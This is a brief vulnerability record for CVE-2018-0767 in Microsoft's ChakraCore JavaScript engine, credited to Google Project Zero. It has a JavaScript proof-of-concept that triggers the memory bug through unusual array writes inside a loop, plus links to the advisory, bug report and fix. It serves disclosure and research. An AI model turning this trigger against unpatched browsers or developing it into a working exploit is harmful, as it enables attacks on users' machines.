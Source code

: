 # CVE-2018-0767

- Fix: Jan 2018
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function trigger() {
    let arr = [1.1];
    let i = 0;
    for (; i < 1000; i += 0.5) {
        arr[i + 0x7777] = 2.0;
    }

    arr[1001] = 35480.0;

    for (; i < 0x7777; i++) {
        arr[i] = 1234.3;
    }
}

for (let i = 0; i < 100; i++) {
    trigger();
}
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2018-0767)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1387)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/82825da81d126ce546d93d7846d609af025c3ea9)